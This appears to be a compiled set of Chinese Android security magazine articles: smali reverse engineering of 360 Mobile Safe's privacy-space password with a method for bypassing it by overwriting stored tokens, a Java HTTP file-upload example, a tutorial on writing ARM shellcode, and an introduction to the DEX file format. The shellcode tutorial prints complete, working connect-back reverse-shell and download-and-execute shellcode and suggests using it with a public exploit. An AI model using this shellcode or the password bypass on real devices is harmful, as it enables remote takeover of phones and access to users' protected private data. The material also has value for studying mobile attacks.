.method public constructor <init>(Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;)V
.locals 0
iput-object p1, p0, Lago;->a:Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;
invoke-direct {p0}, Ljava/lang/Object;-><init>()V
return-void
.end method

.method public onPreferenceClick(Landroid/preference/Preference;)Z
.locals 1
iget-object v0, p0, Lago;->a:Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;
invoke-static {v0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->c(...)V
const/4 v0, 0x1
return v0
.end method
```

响应用户单击的代码只是调用了 “PrivateSetupPreference->c()” 方法，真是让人意外啊，代码又迁回到了 “PrivateSetupPreference.smali” 中，其他几个 agp、agm、agn 对象与这里一样，只是分别调用了 d()、e() 与 f()。

```smali
.method public static synthetic c(Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;)V
.locals 0
invoke-direct {p0}, Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->d()V
return-void
.end method
```

在 c 中又调用了 d()，继续看 d()，是私有方法哦：

```smali
.method private d()V
.locals 6
invoke-static {p0}, Landroid/view/LayoutInflater;->from(Landroid/content/Context;)Landroid/view/LayoutInflater;
move-result-object v0
const v1, 0x7f030046
const/4 v2, 0x0
invoke-virtual {v0, v1, v2}, Landroid/view/LayoutInflater;->inflate(...)Landroid/view/View;
move-result-object v2
const v0, 0x7f0a0104
invoke-virtual {v2, v0}, Landroid/view/View;->findViewById(I)Landroid/view/View;
move-result-object v0
...
```

## Android 远程监控技术


```smali
check-cast v0, Landroid/widget/EditText;
const v1, 0x7f0a0105
invoke-virtual {v2, v1},
Landroid/view/View;->findViewById(I)Landroid/view/View;
move-result-object v1  # 获取“确认密码”的 EditText
...
Landroid/widget/Button;->setOnClickListener(Landroid/view/View$OnClickListener;)V # 设置取消按钮的监听器
```

```smali
invoke-virtual {p0},
Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;->isFinishing()Z
move-result v0
if-nez v0, :cond_0
invoke-virtual {v3},
Lcom/qihoo360/mobilesafe/ui/dialog/DialogFactory;->show()V
# 显示出来
:cond_0
return-void
.end method
```

代码笔者注释得很详细了，关键点是加黑部分的设置监听器的地方，我们看看“agj.smali”文件：

```smali
.method public onClick(Landroid/view/View;)V
.locals 3
iget-object v0, p0, Lagj;->a:Landroid/widget/EditText;
invoke-virtual {v0},
Landroid/widget/EditText;->getText()Landroid/text/Editable;
move-result-object v0
invoke-virtual {v0},
Ljava/lang/Object;->toString()Ljava/lang/String; # 获取密码
...
invoke-static {v0, v1},
Ljava/lang/String;->equals(Ljava/lang/Object;)Z # 判断两密码是否相等
move-result v0
if-nez v0, :cond_1
...
Landroid/widget/Toast;->show()V # 提示密码输入错误
...
.end method
```

```smali
invoke-virtual {v0},
Ljava/lang/Object;->toString()Ljava/lang/String;  # 再次获取密码
move-result-object v0
iget-object v1, p0,
Lagi;->d:Lcom/qihoo360/mobilesafe/ui/privatespace/PrivateSetupPreference;
invoke-static {v1, v0},
Laue;->g(Landroid/content/Context;Ljava/lang/String;)V  # 调用 g() 方法
iget-object v0, p0,
Lagi;->c:Lcom/qihoo360/mobilesafe/ui/dialog/DialogFactory;
invoke-virtual {v0},
Lcom/qihoo360/mobilesafe/ui/dialog/DialogFactory;->dismiss()V  # 退出对话框
goto :goto_0
.end method
```

处理很简单，如果输入没有错误的话就调用 **aue->g()** 方法，然后退出对话框，我们继续跟踪代码：

```smali
.method public static
g(Landroid/content/Context;Ljava/lang/String;)V
.locals 3
sput-object p1, Laue;->u:Ljava/lang/String;
invoke-static {p0},
Laue;->p(Landroid/content/Context;)Ljava/lang/String;  # 调用 aue-p() 方法
move-result-object v0  # 保存 "private_security_token" 到 v0
invoke-static {p0},
Landroid/preference/PreferenceManager;->getDefaultSharedPreferences(Landroid/content/Context;)Landroid/content/SharedPreferences;
move-result-object v1
invoke-interface {v1},
Landroid/content/SharedPreferences;->edit()Landroid/content/SharedPreferences$Editor;
move-result-object v1
const-string v2, "private_password_token"
invoke-static {v0, p1},
Lals;->c(Ljava/lang/String;Ljava/lang/String;)Ljava/lang/String;  # 调用 als-c() 方法进行加密
move-result-object v0
invoke-interface {v1, v2, v0},
Landroid/content/SharedPreferences$Editor;->putString(Ljava/lang/String;Ljava/lang/String;)Landroid/content/SharedPreferences$Editor;
invoke-interface {v1},
Landroid/content/SharedPreferences$Editor;->commit()Z
return-void
.end method
```

这里将要保存的密码进行加密后保存，关键点就在于分析 **aue-p()** 与 **als-c()** 了。这里我再跟下去怕没完没了，说一下 aue-p() 吧，它的作用是写入并保存 `private_security_token`，而 als-c() 方法则传入 `private_password_token` 与 `private_security_token` 进行 DES 加密，最后调用 als-a() 方法进行位移与运算，最终写入配置文件中。

总结一下代码的步骤为：

```text
PrivateSetupPreference -> ago
-> PrivateSetupPreference->c()
-> PrivateSetupPreference->d() -> agi -> aue->g() -> als-c()
-> als-a()
```

有兴趣的朋友可以继续研究解密出原始密码，这里由于篇幅问题不再深究。说说破解这个密码的简单方法：在 `data/data/com.qihoo360.mobilesafe/shared_prefs/com.qihoo360.mobilesafe_preferences.xml` 文件中，分别有 3 组值：

```xml
<string name="private_email_token">...</string>
<string name="private_security_token">...</string>
<string name="private_password_token">...</string>
```

将 360 进程去掉（方法前面有介绍），将 `com.qihoo360.mobilesafe_preferences.xml` 文件中这 3 组键值写入自己已知的值（可事先用已知密码与邮箱生成），这样，重启 360 后就可以用自己设置的密码进入“隐私空间”了，并且里面的记录都还原，原本也存在。

OK！这篇老长的文章终于写完了，说说在写调试程序时的一个小插曲。在研究开机启动的时候，笔者想到的是在开机启动广播结束 360 进程，然后自己创建动态广播。结果测试时发现安装测试程序后，重启手机刚进入桌面又重启了，并且进行了一个无限的重启循环（后来明白了，360 压根都还没启动，结果 360 进程肯定会异常了，因为又用了 ROOT 权限，所以手机就重启了）。我对手机进行双 WIPE 后出现一样的异常（手机 ROOT 后删除掉了一些系统程序，结果不稳定了，根本用不了），由此迎来了第一次刷机之旅……

## Android 下访问 Web

### 服务器上传文件


图/文 Sam

把手机中的文件传到网络可以通过之前的 MAIL 方式，也可以使用 HTTP 方式。从 Android 系统中上传文件到服务器，需要在服务器上有一个脚本文件相配合，可以是 ASP、PHP、JSP 中的任意一种，一个简单的例子如下：

```html
<form name="uploadform"
enctype="multipart/form-data" method="POST"
action="upload.jsp">
  <input type="file" name="File1" size="20" maxlength="20">
  <input type="submit" value="上传">
</form>
```

程序中 form 所设置的 action 为所需要的另一个程序，用来接收 form 所发出的 action。当 form 被 submit 时，程序便会被唤起，把传过来的程序储至服务器指定的路径。

同理，可以使用这个方法仿真 web 应用程序第一个程序中的 form，以 post 的方式对服务器上的接收程序发出 request，触发该程序运行文件写入服务器的动作。

首先要准备一台已架设完成的 Web 服务器，并编写一个接收文件的程序部署在服务器上，然后在 Android 下就可以编写上传文件的程序了，其代码如下。

```java
package irdc.upload;
/* import 相关 class */
import java.io.DataOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;
import java.net.HttpURLConnection;
import java.net.URL;
import android.app.Activity;
import android.app.AlertDialog;
import android.content.DialogInterface;
...
```

```java
import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import android.widget.TextView;
public class upload extends Activity {
    /* 变量声明
     * newName: 上传后在服务器上的文件名称
     * uploadFile: 要上传的文件路径
     * actionUrl: 与服务器对应的程序路径 */
    private String newName="image.jpg";
    private String uploadFile="/data/data/irdc.upload/image.jpg";
    private String actionUrl="http://10.10.100.33/upload/upload.jsp";
    private TextView mText1;
    private TextView mText2;
    private Button mButton;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        ...
        mButton.setOnClickListener(new View.OnClickListener() {
            public void onClick(View v) {
                uploadFile();
            }
        });
    }

    private void uploadFile() {
        String end = "\r\n";
        String twoHyphens = "--";
        String boundary = "******";
        ...
    }
}
```

```java
HttpURLConnection con=(HttpURLConnection)url.openConnection();
/* 允许 Input、Output，不使用 Cache */
con.setDoInput(true);
con.setDoOutput(true);
con.setUseCaches(false);
/* 设定传送的 method=POST */
con.setRequestMethod("POST");
/* setRequestProperty */
con.setRequestProperty("Connection", "Keep-Alive");
con.setRequestProperty("Charset", "UTF-8");
con.setRequestProperty("Content-Type",
    "multipart/form-data;boundary="+boundary);

/* 设定 DataOutputStream */
DataOutputStream ds =
    new DataOutputStream(con.getOutputStream());
ds.writeBytes(twoHyphens + boundary + end);
ds.writeBytes("Content-Disposition: form-data; " +
    "name=\"file1\";filename=\"" +
    newName + "\"" + end);
ds.writeBytes(end);

/* 取得文件的 FileInputStream */
FileInputStream fStream = new FileInputStream(uploadFile);
/* 设定每次写入 1024bytes */
int bufferSize = 1024;
byte[] buffer = new byte[bufferSize];
int length = -1;
/* 从文件读取数据到缓冲区 */
while((length = fStream.read(buffer)) != -1) {
    /* 将数据写入 DataOutputStream 中 */
    ds.write(buffer, 0, length);
}
ds.writeBytes(end);
ds.writeBytes(twoHyphens + boundary + twoHyphens + end);
/* close streams */
fStream.close();
ds.flush();
/* 取得 Response 内容 */
InputStream is = con.getInputStream();
int ch;
StringBuffer b = new StringBuffer();
while((ch = is.read()) != -1) {
    b.append((char)ch);
}
```

```java
/* 将 Response 显示于 Dialog */
showDialog(b.toString().trim());
/* 关闭 DataOutputStream */
ds.close();
}
catch(Exception e)
{
    showDialog(""+e);
}
}

/* 显示 Dialog 的 method */
private void showDialog(String mess)
{
    new AlertDialog.Builder(upload.this).setTitle("Message")
        .setMessage(mess)
        .setNegativeButton("确定", new DialogInterface.OnClickListener()
        {
            public void onClick(DialogInterface dialog, int which)
            {
            }
        })
        .show();
}
```

程序中 `uploadFile()` 为自定义的上传文件方法，以 `URL.openConnection()` 取得 `HttpURLConnection` 对象，设置 `HttpURLConnection` 的相关参数后，再通过 `HttpURLConnection.getOutputStream()` 取得 `DataOutputStream`，使用 `write()` 把文件写入并通过 `flush()` 把 request 传送。

在 Android 中把文件送到服务器，最好是在 WIFI 网络环境下进行。可以做一个判断，如果用户使用的是 3G 卡，流量方面需要做相应控制。关于 WIFI 相关的内容，在后期会一一道来。

## Android 系统 shellcode 编写


随着 Android 手机的普及，Android 系统安全日益受人关注。漏洞攻防是安全的一大课题，其中自然少不了 shellcode 的编写。本文将以提出问题、解决问题的方式教你如何编写 Android 系统 shellcode。由于篇幅限制，本文将不对 ARM 指令集进行介绍，建议没有基础的读者先参考相关手册。

### 1. 基础部分

#### 1. 使用什么工具？

GNU ARM 汇编器 as 和 GNU ARM 连接器 ld 是编写 Android 系统 shellcode 必不可少的两个工具。Android NDK 提供了 Cygwin、Mac 和 Linux 版本的 as 和 ld。为了方便在 Windows 环境下开发，笔者在附件中提供了 Windows 版本的 as 和 ld。

as 和 ld 的使用方法很简单，假设 sc.s 是我们编写好的 shellcode 源文件，先使用 `as sc.s -o sc.o` 命令将 sc.s 汇编成目标文件 sc.o，再使用 `ld sc.o -o sc` 将 sc.o 连接成可执行文件 sc。文中用到的为数不多的 as 汇编伪指令将在相关注释中说明，具体请参考《Using as》手册。

除了 as 和 ld，我们还要用 IDA 作为反汇编器，IDA 的使用想必不用多做介绍。用 IDA 记录下 sc 中 shellcode 的头部和尾部，就可以用十六进制编辑器从 sc 中提取 shellcode 了。

#### 2. 函数参数如何传递？

函数参数从左到右依次存入 R0~R3，如果参数个数大于 4 个，则剩余参数从右到左依次入栈，返回值存入 R0。

#### 3. 如何给 shellcode 瘦身？

ARM 处理器支持两种指令集：ARM 指令集和 Thumb 指令集。ARM 指令集指令长度为 32 位，Thumb 指令集指令长度为 16 位。Thumb 指令集的限制更多，比如立即数大小只能在 0 到 0xFF 范围内。

为了给 shellcode 瘦身，我们更倾向于使用 Thumb 指令集编写 shellcode。ARM 处理器总是从 ARM 指令集开始执行，所以我们的 shellcode 头部是一段 ARM 指令集程序，负责切换到 Thumb 指令集。

#### 4. 如何自定位？

自定位是编写 shellcode 的关键技术之一，也就是所谓的 GetPC。在 x86 环境下，通常有 CALL GetPC、FSTENV GetPC、SEH GetPC 3 种方式。而在 ARM 环境下，事情就变得简单很多了，因为指令指针 PC 可以直接访问。

ARM 汇编还提供了 ADR 伪指令，汇编器会将其转换为相对 PC 寻址的指令，所以我们不用担心自定位问题。值得注意的是，LDR 指令通过绝对地址寻址，当基地址改变时，根据重定位段信息进行重定位。用 LDR 指令寻址一个符号在 shellcode 编写中是错误的，这点和 x86 类似。

#### 5. 如何定位函数？

定位函数也是编写 shellcode 的关键技术。在 Windows 环境下，通常通过 PEB 定位 kernel32 基地址，然后遍历 kernel32 输出表定位 API。在 Linux 环境下，系统直接调用。

Android 系统调用由 gensyscalls.py 自动生成，以 execve.s 为例，代码如下：

```asm
/* autogenerated by gensyscalls.py */
#include <sys/linux-syscalls.h>
.text @ 表示代码段
.type execve, #function @ 定义符号类型
.globl execve @ 导出符号到连接器
.align 4 @ 对齐到 4 字节边界
.fnstart

execve:
    .save    {r4, r7}
    stmfd    sp!, {r4, r7}    @ 保存 r4 和 r7
    ldr      r7, =__NR_execve @ r7 存放系统调用号
    swi      #0               @ 通过调用软中断，切换到特权模式，执行系统调用
    ldmfd    sp!, {r4, r7}    @ 恢复 r4 和 r7
    movs     r0, r0           @ 设置标志位
    bxpl     lr               @ 非负则返回
    b        __set_syscall_errno @ 否则跳转到 __set_syscall_errno
    .fnend
```

`__set_syscall_errno` 代码如下：

```c
int __set_syscall_errno(int n)
{
    /* some syscalls, mmap() for example, have valid
     ** values that are "negative". Since errno
     ** values are not greater than 131 on Linux, we will just
     ** consider anything significantly out of range as
     ** not-an-error
     */
    if (n > -256) {
        return __set_errno(-n); // 设置 errno 为 -n, 并返回 -1
    } else {
        return n; // 返回值不变
    }
}
```

从上述代码可以看出，Android 通过调用软中断，切换到特权模式，执行系统调用，r7 存放系统调用号，软中断号不重要。文末将附上 Android 系统调用表。

### 2. 实战部分

解决了上述问题之后，我们可以编写 shellcode 了，先写一个简单的 Connect Back Shell，代码如下：

```asm
.globl _start
.align 2
start: @ 默认入口点
.code 32 @ 使用 ARM 指令集
    adr r0, thumb+1 @ 最低位 1 表示切换到 Thumb 指令集
    bx r0
thumb:
.code 16 @ 使用 Thumb 指令集
    mov r0, #0
    mov r7, #213
    swi #0 @ setuid32(0)
    mov r0, #2 @ AF_INET
    mov r1, #1 @ SOCK_STREAM
    mov r2, #6 @ IPPROTO_TCP
    mov r7, #250
    add r7, #31
    swi #0 @ int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)
    mov r4, r0

    adr r1, addr
    mov r2, #16
    mov r7, #250
    add r7, #33
    swi #0 @ connect(sock, addr, 16)
    mov r0, r4
    mov r1, #0 @ STDIN_FILENO
    mov r7, #63
    swi #0 @ dup2(sock, STDIN_FILENO)
    mov r0, r4
    mov r1, #1 @ STDOUT_FILENO
    mov r7, #63
    swi #0 @ dup2(sock, STDOUT_FILENO)
    mov r0, r4
    mov r1, #2 @ STDERR_FILENO
    mov r7, #63
    swi #0 @ dup2(sock, STDERR_FILENO)
    adr r0, systembinsh
    mov r1, #0
    push {r1}
    push {r0} @ argv[0]
    mov r1, sp @ argv
    mov r2, #0
    mov r7, #11
    swi #0 @ execve(filename, argv, NULL)
    mov r0, #0
    mov r7, #1
    swi #0 @ exit(0)
addr:
    .short 2 @ 定义 16 比特数 AF_INET
    .ascii "\x08\xAE" @ 定义 2 字节 port=2222
    .byte 10, 0, 2, 2 @ 定义 4 字节 ip=10.0.2.2(模拟器中的本机地址)
systembinsh:
    .asciz "/system/bin/sh" @ 定义字符串 filename
```

使用 as 和 ld 生成可执行文件 sc，下一步就是测试 shellcode 了。读者可以提取 shellcode 并利用公开的漏洞，如 CVE-2010-1119 测试，笔者为了方便直接测试 sc。

假定我们的工作目录在 D 盘，使用 `nc -vvlp 2222` 命令 bind 到 2222 端口。启动另一个命令行，启动模拟器，使用 `adb push D:/sc /data` 命令将 sc 复制到 data 目录下，使用 `adb shell` 命令进到 shell，使用 `cd /data` 命令进到 data 目录，使用 `chmod 777 sc` 命令设置 sc 为可执行，使用 `./sc` 命令执行 sc，如图 1 所示。sc 执行后我们已经拿到 shell 了，如图 2 所示。


图 1


图 2

编写 shellcode 难免出错，自然少不了调试工作，笔者建议使用 IDA 远程调试，方法很简单。先将 IDA 目录下的 android_server 复制到模拟器中并执行，使用 `adb forward tcp:23946 tcp:23946` 命令转发端口，使用 IDA 打开 sc，选择 Remote ARM Linux/Android debugger 调试器，在 Debugger/Debugger options... 中勾选 Stop on debugging start，在 Debugger/Process options... 中填 Hostname 为 localhost，按 F9 键开始调试了，如图 3 所示。


图 3

最后我们编写一个 HTTP 下载执行的 shellcode，代码如下：

```asm
.globl _start
.align 2
_start:
.code 32
    adr r0, thumb+1
    bx r0
thumb:
.code 16
    mov r0, #0
    mov r7, #213
    swi #0  @ setuid32(0)
    @ 创建文件
    mov r2, #0x1C
    lsl r2, #4   @ S_IRWXU
    mov r1, #0x241
    lsl r1, #4
    add r1, r1, #1  @ O_CREAT|O_WRONLY|O_TRUNC
    adr r0, name
    mov r7, #5
    swi #0  @ int fd = open(name, O_CREAT|O_WRONLY|O_TRUNC, S_IRWXU)
    mov r4, r0
    mov r2, #6      @ IPPROTO_TCP
    mov r1, #1      @ SOCK_STREAM
    mov r0, #2      @ AF_INET
    mov r7, #250
    add r7, #31
    swi #0          @ int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)
    mov r5, r0
    mov r2, #16
    adr r1, addr
    mov r7, #250
    add r7, #33
    swi #0          @ connect(sock, addr, 16)
    @ 计算 http 头长度
    adr r2, head
    mov r1, r2
    b L1
L0:
    add r2, r2, #1
L1:
    ldrb r0, [r2]
    cmp r0, #0
    bne L0
    sub r2, r2, r1
    mov r0, r5
    mov r7, #4
    swi #0      @ write(sock, head, strlen(head))
    @ 跳过 http 头
    mov r3, #0
    adr r6, nrn
    ldr r6, [r6]
L2:
    mov r2, #252
    sub sp, sp, #252
    mov r1, sp
    mov r0, r5
    mov r7, #3
    push {r3}
    swi #0      @ int len = read(sock, buf, 252)
    pop {r3}
    cmp r0, #0
    ble L7
    mov r2, #0
L3:
    lsl r3, r3, #8
    mov r1, sp
    add r1, r2
    ldrb r1, [r1]
    add r3, r3, r1
    add r2, r2, #1
    cmp r3, r6
    beq L4
    cmp r2, r0
    bne L3
    add sp, sp, #252
    b L2
L4:
    ...
    @ 写入文件
L5:
    mov r2, #252
    sub sp, sp, #252
    mov r1, sp
    mov r0, r5
    mov r7, #3
    swi #0 @ int len = read(sock, buf, 252)
    cmp r0, #0
    ble L7
    mov r2, r0
    mov r1, sp
L6:
    mov r0, r4
    mov r7, #4
    swi #0 @ write(fd, buf, len)
    add sp, sp, #252
    b L5
L7:
    add sp, sp, #252
    mov r0, r5
    mov r7, #6
    swi #0 @ close(sock)
    mov r0, r4
    swi #0 @ close(fd)
    @ 执行文件
    mov r1, #0x1C
    lsl r1, #4 @ S_IRUSR|S_IWUSR|S_IXUSR
    adr r0, name
    mov r7, #15
    swi #0 @ chmod(name, S_IRUSR|S_IWUSR|S_IXUSR)
    mov r2, #0
    mov r1, #0
    push {r1}
    adr r0, name
    push {r0} @ argv[0]
    mov r1, sp @ argv
    mov r7, #11
    swi #0 @ execve(name, argv, NULL)
    mov r0, #0
    mov r7, #1
    swi #0 @ exit(0)
addr:
    .short 2 @ AF_INET
    .ascii "\x00\x50" @ port
    .byte 202,120,2,102 @ ip
    .zero 8
head:
    .ascii "GET /"
    .ascii "" @ file
    .ascii " HTTP/1.1\r\n"
    .ascii "HOST:"
    .ascii "www.android.com" @ host
    .ascii "\r\n\r\n\x00"
    .zero 2
name:
    .asciz "xxx"
nrn:
    .ascii "\n\r\n\r"
```

### 3. Android 系统调用表

| 编号 | 调用 | 编号 | 调用 |
|---|---|---|---|
| 1 | exit | 2 | fork |
| 3 | read | 4 | write |
| 5 | open | 6 | close |
| 9 | link | 10 | unlink |
| 11 | execve | 12 | chdir |
| 14 | mknod | 15 | chmod |
| 19 | lseek | 20 | getpid |
| 21 | mount | 26 | ptrace |
| 29 | pause | 33 | access |
| 36 | sync | 38 | rename |
| 39 | mkdir | 40 | rmdir |
| 41 | dup | 42 | pipe |
| 43 | times | 45 | brk |
| 51 | acct | 52 | umount2 |
| 54 | ioctl | 55 | fcntl |
| 57 | setpgid | 60 | umask |
| 61 | chroot | 63 | dup2 |
| 64 | getppid | 66 | setsid |
| 67 | sigaction | 72 | sigsuspend |
| 73 | sigpending | 75 | setrlimit |
| 77 | getrusage | 78 | gettimeofday |
| 79 | settimeofday | 83 | symlink |
| 85 | readlink | 88 | reboot |
| 91 | munmap | 92 | truncate |
| 93 | ftruncate | 94 | fchmod |
| 96 | getpriority | 97 | setpriority |
| 103 | syslog | 103 | syslog |
| 104 | setitimer | 105 | getitimer |
| 114 | wait4 | 116 | sysinfo |
| 118 | fsync | 120 | clone |
| 122 | uname | 125 | mprotect |
| 126 | sigprocmask | 128 | init_module |
| 129 | delete_module | 132 | getpgid |
| 133 | fchdir | 140 | _llseek |
| 142 | _newselect | 143 | flock |
| 144 | msync | 145 | readv |
| 146 | writev | 148 | fdatasync |
| 150 | mlock | 151 | munlock |
| 154 | sched_setparam | 155 | sched_getparam |
| 156 | sched_setscheduler | 157 | sched_getscheduler |
| 158 | sched_yield | 159 | sched_get_priority_max |
| 160 | sched_get_priority_min | 161 | sched_rr_get_interval |
| 162 | nanosleep | 163 | mremap |
| 168 | poll | 172 | prctl |
| 174 | rt_sigaction | 175 | rt_sigprocmask |
| 177 | rt_sigtimedwait | 180 | pread64 |
| 181 | pwrite64 | 183 | getcwd |
| 184 | capget | 185 | capset |

| 编号 | 系统调用 | 编号 | 系统调用 |
|---|---|---|---|
| 186 | sigaltstack | 187 | sendfile |
| 190 | vfork | 191 | ugetrlimit |
| 192 | mmap2 | 195 | stat64 |
| 196 | lstat64 | 197 | fstat64 |
| 198 | lchown32 | 199 | getuid32 |
| 200 | getgid32 | 201 | geteuid32 |
| 202 | getegid32 | 203 | setreuid32 |
| 204 | setregid32 | 205 | getgroups32 |
| 206 | setgroups32 | 207 | fchown32 |
| 208 | setresuid32 | 209 | getresuid32 |
| 210 | setresgid32 | 211 | getresgid32 |
| 212 | chown32 | 213 | setuid32 |
| 214 | setgid32 | 217 | getdents64 |
| 219 | mincore | 220 | madvise |
| 221 | fcntl64 | 224 | gettid |
| 240 | futex | 248 | exit_group |
| 250 | epoll_create | 251 | epoll_ctl |
| 252 | epoll_wait | 257 | timer_create |
| 258 | timer_settime | 259 | timer_gettime |
| 260 | timer_getoverrun | 261 | timer_delete |
| 262 | clock_settime | 263 | clock_gettime |
| 264 | clock_getres | 265 | clock_nanosleep |
| 266 | statfs64 | 267 | fstatfs64 |
| 269 | utimes | 280 | waitid |
| 281 | socket | 282 | bind |
| 283 | connect | 284 | listen |
| 285 | accept | 286 | getsockname |
| 287 | getpeername | 288 | socketpair |
| 290 | sendto | 292 | recvfrom |
| 293 | shutdown | 294 | setsockopt |
| 295 | getsockopt | 296 | sendmsg |
| 297 | recvmsg | 314 | ioprio_set |
| 315 | ioprio_get | 316 | inotify_init |
| 317 | inotify_add_watch | 318 | inotify_rm_watch |
| 322 | openat | 323 | mkdirat |
| 325 | fchownat | 327 | fstatat64 |
| 328 | unlinkat | 329 | renameat |
| 333 | fchmodat | 356 | eventfd2 |
| 359 | pipe2 | 983042 | ARM_cacheflush |
| 983045 | ARM_set_tls |  |  |

## Android 应用程序的补丁方法


图/文 非虫

能完成这篇文章，笔者打心底里十分高兴，一直在研究 Android 程序的逆向与解密方法，每次都使用传统的反编译与回编 APK，这样需要花费大量时间去测试，而且很多时候反编译出的程序无法回编回去，这着实让我郁闷了好些日子。当时就在想，Android 程序如果能像 Windows 程序一样可以打补丁的话该多好啊，这样测试程序时就不用反复地反编译程序了。为了完成设想，笔者开始对 DEX 文件进行研究，在经过一个多月的摸爬滚打后终于将 APK 程序的两种补丁方法研究出来了，特此拿来与大家分享。

### Dex 文件结构

研究 Windows 的程序，首先要掌握 PE 文件格式；到了 Linux/UNIX 环境，又必须掌握 ELF 文件格式。因为它们都是分析自身所在系统程序的基础。不了解它们，就像中国人不了解汉字，美国人不了解英语，丈夫不了解妻子……也正因为如此，在分析 Android 软件之前，了解 Dalvik DEX 文件格式是很有必要的。在以往的文章中，跟大家曾多次提到过 DEX 文件，今天，就带领大家一起来揭开它的神秘面纱。

随着 Android 系统版本的升级，一些结构也有了微妙的变化，本文所描述的 DEX 文件格式源于 Android 4.0 源代码中的“dalvik\libdex\DexFile.h”文件所提供的信息。另外，由于本人知识有限，所以，在理解与表述方面出现错误也在所难免，如果大家发现文中有任何不对的地方，也请批评指出。

DEX 文件作为 APK 程序的“可执行体”，里面存放着 APK 所有的包、类及方法信息。DEX 文件的完整定义格式如下：

```c
struct DexFile {
    /* directly-mapped "opt" header */
    const DexOptHeader* pOptHeader;
    /* pointers to directly-mapped structs and arrays in base DEX */
    const DexHeader*    pHeader;
    const DexStringId*  pStringIds;
    const DexTypeId*    pTypeIds;
    const DexFieldId*   pFieldIds;
    const DexMethodId*  pMethodIds;
    const DexProtoId*   pProtoIds;
    const DexClassDef*  pClassDefs;
    const DexLink*      pLinkData;
    ...
};
```

这里我们先不讨论 DexOptHeader，如结构中注释所说，DexLink 下面的 4 个字段也不属于原始的 DEX 文件。原始的 DEX 文件只包含下面几个字段：

```c
const DexHeader*   pHeader;
const DexStringId* pStringIds;
const DexTypeId*   pTypeIds;
const DexFieldId*  pFieldIds;
const DexMethodId* pMethodIds;
const DexProtoId*  pProtoIds;
const DexClassDef* pClassDefs;
const DexLink*     pLinkData;
```

整个 DEX 文件分成了头和体两个部分，DexHeader 存放着 DEX 文件的校验及各数据类型起始地址、偏移量等信息，其他的字段即为 DexBody 部分。在“DexFile.h”文件中 DexHeader 的定义如下：

```c
struct DexHeader {
    u1  magic[8];
    u4  checksum;
    u1  signature[kSHA1DigestLen];
    u4  fileSize;
    u4  headerSize;
    u4  endianTag;
    u4  linkSize;
    u4  linkOff;
    u4  mapOff;
    u4  stringIdsSize;
    u4  stringIdsOff;
    u4  typeIdsSize;
    u4  typeIdsOff;
    u4  protoIdsSize;
    u4  protoIdsOff;
    u4  fieldIdsSize;
    u4  fieldIdsOff;
    u4  methodIdsSize;
    u4  methodIdsOff;
    u4  classDefsSize;
    u4  classDefsOff;
    u4  dataSize;
    u4  dataOff;
};
```

magic 字段用于验证是否为 DEX，正常值为“dex\n035\0”，checksum 为 DEX 文件的 adler32 校验值，这个校验值验证 DEX 文件是否损坏，signature 用于识别未优化过的 DEX 档案的 SHA1 值。checksum 与 signature 这两个字段在后面突破 DEX 验证小节会详细地分析。fileSize 为整个 DEX 文件的大小，headerSize 为本结构 DexHeader 的大小，值为 0x70，endianTag 记录标识与处理器相关，在 Little-Endian 的 CPU 上值为“0x12345678”，在 Big-Endian 的 CPU 上值为“0x78563412”。linkSize 表示 LinkSection 的大小，如果为 0 表示 DEX 文件不是静态链接；linkOff 表示 LinkSection 距离 DexHeader 的偏移，如果 linkSize 为 0，则它也为 0；mapOff 表示 MapItem 距离 DexHeader 的偏移；下面的几个字段分别表示 stringId、typeId、protoId、fieldId、methodId、classDef 的偏移量与类型 ID 的数量，最后两个字段表示 DataSection 的大小（以 sizeof(uint) 大小对齐）与偏移。

以“Off”为结尾的字段都是指向一个结构体的偏移量，一个 DEX 中可以包含多个类，也就是有多个“classDef”，每个类可以有不同的类型（typeId）、声明（protoId）、字段（fieldId）、方法（methodId）等，如果全部分开列出来讲肯定会犯晕，为了让这些结构更容易理解，我们通过实例来讲解。

打开 Eclipse，新建一个 HelloDEX 的工程，在主 Activity 里面添加一个 add 方法：

```java
public int add(int a, int b){
    return a + b;
}
```

编译生成后，到 bin 目录里可以发现“classes.dex”文件，用任意一款十六进制编辑工具打开它，如图1所示。


首先找到 classDefsSize 与 classDefsOff 字段，整个节头为 0x70，除去最后两个字段，也就是从 0x60 算起，classDefsSize 为 6，classDefsOff 为 0x1F0。也就意味着这个 DEX 文件中包含有 6 个类（其中一个是我们新建的 HelloDEXActivity 类，另外的几类分别为“R$attr”、“R$drawable”、“R$layout”、“R$string”、“R”，后面几个类是 Eclipse 帮我们自动生成的，可以到“\bin\classes\com\dex\android”目录中找到相应的 class 文件），类的起始描述结构数组偏移为 0x1F0，classDefsOff 是指向 DexClassDef 结构数组的偏移，“DexFile.h”文件中 DexClassDef 的结构定义如下：

```c
struct DexClassDef {
    u4 classIdx;      /* index into typeIds for this class */
    u4 accessFlags;
    u4 superclassIdx; /* index into typeIds for superclass */
    ...
}
```

```c
u4 interfacesOff;   /* file offset to DexTypeList */
u4 sourceFileIdx;   /* index into stringIds for source file name */
u4 annotationsOff;  /* file offset to annotations_directory_item */
u4 classDataOff;    /* file offset to class_data_item */
u4 staticValuesOff; /* file offset to DexEncodedArray */
```

结构体中的 classIdx 描述了该类 typeId 的索引（类是啥类型的）、访问标志、父类 typeIds 的偏移、接口偏移、源码文件的 stringId 索引（如果 DEX 文件没有被混淆应该为原文件的名称）、注释偏移、类的数据偏移、静态值的偏移等。6 个类的 DexClassDef 结构数据如图2所示。


HelloDEXActivity 类到底是哪个类呢？很简单，可以通过 classIdx 字段索引找到这些类的类型来进行判断，也可以通过 classDataOff 找到 class_data_item 来查看类所拥有的字段、方法信息来判断。我们先看看 classDataOff 字段，class_data_item 结构在“DexFile.h”文件中没有，不过没关系，在 Android4.0 源码的“/dalvik/docs/dex-format.html”文件中它的结构定义如下表所示。

| Name | Format | Description |
|---|---|---|
